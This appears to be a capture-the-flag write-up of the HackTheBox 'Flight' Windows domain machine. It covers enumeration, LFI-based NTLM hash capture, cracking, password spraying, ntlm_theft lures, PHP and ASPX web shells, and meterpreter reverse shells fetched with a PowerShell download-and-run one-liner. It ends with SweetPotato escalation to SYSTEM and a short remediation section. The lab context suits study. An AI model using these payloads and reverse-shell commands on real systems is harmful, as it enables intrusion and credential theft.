

## Phase 1: Initial Reconnaissance and Enumeration

The first step in any engagement is a thorough reconnaissance of the target system to understand its attack surface.

### Port Scanning

A full TCP port scan was initiated to identify all open services on the target IP address, providing a comprehensive map of potential entry points.

```bash
ports=$(nmap -p- --min-rate=1000 -T4 10.129.228.120 | grep ^[0-9] | cut -d '/' -f 1 | tr '\n' ',' | sed s/,$//)
nmap -p$ports -sC -sV 10.129.228.120
```


We can see tipical AD ports and services except the web server, the domnain name - flight.htb so we will add it to our host file:

```bash
echo "10.129.228.120 flight.htb" | sudo tee -a /etc/hosts
```

### Web Enumeration && Virtual Host Discovery

The site seems to be static so lets fuzz it for any subdirectories or vhosts:


For subdomains most are 403 and 301 so vhosts now.

We got a lot of with size 7069 and 1546 words so we're going to filter it:

```bash
ffuf -u http://flight.htb/ -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt:FUZZ -H "Host:FUZZ.flight.htb" -fw 1546
```


```bash
echo "10.129.228.120 school.flight.htb" | sudo tee -a /etc/hosts
```

### Phase 2: LFI Discovery and Hash Capture

### LFI Vulnerability Discovery

We can find this url thats seems to be LFI vulnerable:

http://school.flight.htb/index.php?view=home.html
http://school.flight.htb/index.php?view=about.html
http://school.flight.htb/index.php?view=blog.html

When I tried to view C: it was blank and then I tried C:\ and i had this incident report notification:


I used / instead of \ to try bypass filter and it worked. So now we will use UNC to catch hash.

### NTLM Hash Capture via UNC Injection

First we will setup a responder:

```bash
sudo responder -I tun0 -wAF
```

http://school.flight.htb/index.php?view=//10.10.14.52/dontexist


svc_apache::flight:429320c5e2644ad8:1CA338E69E98A7B206701D0782EE1729:010100000000000000F5033276F4DB01E56F306E714817620000000002000800430059003000580001001E00570049004E002D005600340043005800350038004700520054004500300004003400570049004E002D00560034004300580035003800470052005400450030002E0043005900300058002E004C004F00430041004C000300140043005900300058002E004C004F00430041004C000500140043005900300058002E004C004F00430041004C000700080000F5033276F4DB010600040002000000080030003000000000000000000000000030000029426303648DF02E4C293D6EC790232EAFF2BFA44BA8E57083BC3836F4A49FF80A001000000000000000000000000000000000000900200063006900660073002F00310030002E00310030002E00310034002E00350032000000000000000000

### Cracking the Hash with John

We got apache service hash and now we're going to crack it offline with john as follows:


```bash
john hash --wordlist=/usr/share/wordlists/rockyou.txt
```

svc_apache:S@Ss!K@*t13


###  Phase 3: SMB Enumeration and Privilege Escalation (Part 1)

### SMB Share Enumeration (svc_apache)

Let's check now for smb shares:

```bash
smbmap -u svc_apache -p 'S@Ss!K@*t13' -H flight.htb
```


We can only read so Let's check for Users and Web shares using impacket. I havent found anything useful in shares so let's use lookupsid to do password spray attack:

### SID Bruteforce & Password Spraying

```bash
impacket-lookupsid svc_apache:'S@Ss!K@*t13'@flight.htb
```


```bash
cme smb flight.htb -u users -p 'S@Ss!K@*t13'
```



S.Moon:S@Ss!K@*t13

Now I checked the smb again and now we have write rights on Shared:


It's empty.

### Phase 4: NTLM Hash Theft via Writable Share

### NTLM Theft with Responder + ntlm_theft

I stucked there for a bit enumerating other services and then I went back to share. Judging by it's name and that we have write rights and it's empty = we have to steal hash again with responder. My responder is still there and we will use ntlm_theft:

```bash
git clone https://github.com/Greenwolf/ntlm_theft
cd ./ntlm_theft
python3 ntlm_theft.py --generate all --server 10.10.14.52 --filename PWNED
```
I uploaded all files but some of them havent uploaded. I got c.bum's hash:


c.bum::flight.htb:508d20384db9ff86:D92D1CC2C0BCDE83E9B8CEEB34A380F4:010100000000000000F5033276F4DB01317DD69C77CBA5420000000002000800430059003000580001001E00570049004E002D005600340043005800350038004700520054004500300004003400570049004E002D00560034004300580035003800470052005400450030002E0043005900300058002E004C004F00430041004C000300140043005900300058002E004C004F00430041004C000500140043005900300058002E004C004F00430041004C000700080000F5033276F4DB010600040002000000080030003000000000000000000000000030000029426303648DF02E4C293D6EC790232EAFF2BFA44BA8E57083BC3836F4A49FF80A001000000000000000000000000000000000000900200063006900660073002F00310030002E00310030002E00310034002E00350032000000000000000000

### Cracking c.bum Hash

We will now crack it offilne as we already did:

```bash
john hash --wordlist=/usr/share/wordlists/rockyou.txt
```


c.bum:Tikkycoll_431012284


### Phase 5: Code Execution via LFI and Web Shell

### Writable Web Share (Web)

We got a user flag. Also we have now write rights on Web share. We will upload a simple php web shell:

<?php
echo system($_GET['c']);
?>

```bash
use Web
cd school.flight.htb
put shell.php
```


### Gaining Shell Access with Meterpreter

We will now create a reverse shell with msfvenom and start our sever:

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.14.52 LPORT=4444 -f exe -o /tmp/meterpreter_flight.exe
cd /tmp
sudo python3 -m http.server 80

# sudo msfconsole
```

After we are in msfconsole:

```bash
use exploit/multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST 10.10.14.52
set LPORT 4444
set ExitOnSession false
exploit -j
```
I URL encoded the payload. Now we will recieve a shell:

powershell -c "wget 10.10.14.52:8000/meterpreter_flight.exe -usebasicparsing -outfile C:\Users\Public\meterpreter_flight.exe; C:\Users\Public\meterpreter_flight.exe"
powershell%20-c%20%22wget%2010.10.14.52:8000/meterpreter_flight.exe%20-usebasicparsing%20-outfile%20C:%5CUsers%5CPublic%5Cmeterpreter_flight.exe;%20C:%5CUsers%5CPublic%5Cmeterpreter_flight.exe%22


### Phase 6: User Pivoting with RunasCs

We got a reverse shell now that we have c.bem creds we can use RunasCs:

```bash
upload RunasCs.exe C:\\Users\\Public\\RunasCs.exe
```

Now we will do another shell where c.bum will connect to:

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.14.52 LPORT=4445 -f exe -o /tmp/meterpreter_cbum.exe
```
Next we will make in another tab new session:

```bash
sudo msfconsole
use exploit/multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST 10.10.14.52
set LPORT 4445
set ExitOnSession false
exploit -j
```

Then back to our meterpreter session and switch to shell. I uploaded payload and executed it then got a shell as a c.bum:

```powershell
powershell -c "Invoke-WebRequest -Uri http://10.10.14.52:8000/meterpreter_cbum.exe -OutFile C:\Users\Public\meterpreter_cbum.exe"
```

```powershell
C:\Users\Public\RunasCs.exe c.bum Tikkycoll_431012284 C:\Users\Public\meterpreter_cbum.exe -l 8
```

```
C:\Windows\system32>whoami /all
whoami /all

USER INFORMATION
----------------

User Name    SID                                           
============ ==============================================
flight\c.bum S-1-5-21-4078382237-1492182817-2568127209-1607


GROUP INFORMATION
-----------------

Group Name                                 Type             SID                                            Attributes                                        
========================================== ================ ============================================== ==================================================
Everyone                                   Well-known group S-1-1-0                                        Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                              Alias            S-1-5-32-545                                   Mandatory group, Enabled by default, Enabled group
BUILTIN\Pre-Windows 2000 Compatible Access Alias            S-1-5-32-554                                   Group used for deny only                          
NT AUTHORITY\INTERACTIVE                   Well-known group S-1-5-4                                        Mandatory group, Enabled by default, Enabled group
CONSOLE LOGON                              Well-known group S-1-2-1                                        Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users           Well-known group S-1-5-11                                       Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization             Well-known group S-1-5-15                                       Mandatory group, Enabled by default, Enabled group
flight\WebDevs                             Group            S-1-5-21-4078382237-1492182817-2568127209-1614 Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NTLM Authentication           Well-known group S-1-5-64-10                                    Mandatory group, Enabled by default, Enabled group
Mandatory Label\Medium Mandatory Level     Label            S-1-16-8192                                                                                      


PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State   
============================= ============================== ========
SeMachineAccountPrivilege     Add workstations to domain     Disabled
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled 
SeIncreaseWorkingSetPrivilege Increase a process working set Disabled

<SNIP>
TCP    0.0.0.0:8000           0.0.0.0:0              LISTENING       4
<SINP>
```

### Phase 7: Internal Web Access via Socks Pivot

### WebDevs Group Access


We can see that he's in WebDevs group. Also it's listening locally on port 8000. We will set up socks and foxy now:

```bash
run post/multi/manage/autoroute
background
route add 0.0.0.0/0 1
```

We are in WebDevs group so we're going to upload aspx simple webshell:

In nano:

```aspx
<%@Page Language="C#"%><%var p=new System.Diagnostics.Process{StartInfo=
{FileName=Request["c"],UseShellExecute=false,RedirectStandardOutput=true}};p.Start();%>
<%=p.StandardOutput.ReadToEnd()%>
```

In msf:
```bash
upload shell.aspx 'C:\inetpub\development\shell.aspx'
```

In terminal:
```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.14.52 LPORT=4446 -f exe -o /tmp/meterpreter_iis.exe
```

New msf tab:
```bash
sudo msfconsole
use exploit/multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST 10.10.14.52
set LPORT 4446
set ExitOnSession false
exploit -j
```

In c.bum tab in msf:
```bash
upload /tmp/meterpreter_iis.exe C:\\Users\\Public\\meterpreter_iis.exe
```

Finally in browser:

http://127.0.0.1:8000/shell.aspx?c=C:\Users\Public\meterpreter_iis.exe

We got a shell as IIS APPPOOL\DefaultAppPool. 

msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.14.52 LPORT=4447 -f exe -o /tmp/meterpreter_system.exe

### Phase 8: Privilege Escalation to SYSTEM (SweetPotato)

In msf:
```bash
sudo msfconsole
use exploit/multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST 10.10.14.52
set LPORT 4447
set ExitOnSession false
exploit -j
```
```bash
upload /opt/SweetPotato.exe C:\\Users\\Public\\SweetPotato.exe
shell
cd C:\Users\Public\
SweetPotato.exe -e EfsRpc -p "C:\Users\Public\meterpreter_system.exe"
```


We got a root flag!


### What I Learned & Redemption

### What I Learned

Responder + ntlm_theft for SMB share abuse:
When we gained write access to the Shared SMB share, I leveraged ntlm_theft to craft various files that could trigger outbound NTLM authentication — like .url, .scf, and .lnk. This led to capturing another user's NTLM hash, demonstrating a practical attack path often seen in real networks.

Using RunasCs for Token Impersonation and Shell Spawning:
I used the RunasCs tool to impersonate c.bum from a lower-privileged session and spawn a Meterpreter payload with their context. This taught me how to escalate from one user to another without needing full admin rights.

SweetPotato Exploit for Local Privilege Escalation:
I successfully used SweetPotato.exe to exploit the EfsRpc abuse vector, spawning a SYSTEM shell from an IIS AppPool context. It reinforced my understanding of how Windows privilege escalation via COM abuse works and how important service misconfigurations can be in real-world escalations.


### Redemption

Disable SMB Outbound or Restrict It via Firewall
Preventing outbound SMB traffic to the internet or unknown hosts would block NTLM hash theft via UNC injection.

Apply Input Validation on File Parameters
The LFI was possible due to insufficient filtering of the view parameter. Using proper whitelisting and avoiding direct file inclusion based on user input would eliminate this vector.

Use Strong Password Policies and Avoid Reuse
The compromise of svc_apache led to the compromise of c.bum due to password reuse. Enforcing unique, strong passwords per user would prevent lateral movement.

Least Privilege on SMB Shares
Shared should not have write access for unprivileged users. Principle of Least Privilege would have stopped hash theft using crafted .url files.

Restrict WebDev Group and IIS Access
The WebDevs group had access to an internal IIS site that allowed web shell uploads. Tighter access control and application whitelisting could prevent such post-exploitation activity.

Patch Local Privilege Escalation Vectors (e.g. EfsRpc)
Keeping Windows updated and disabling unnecessary RPC services would prevent the use of known LPEs like SweetPotato.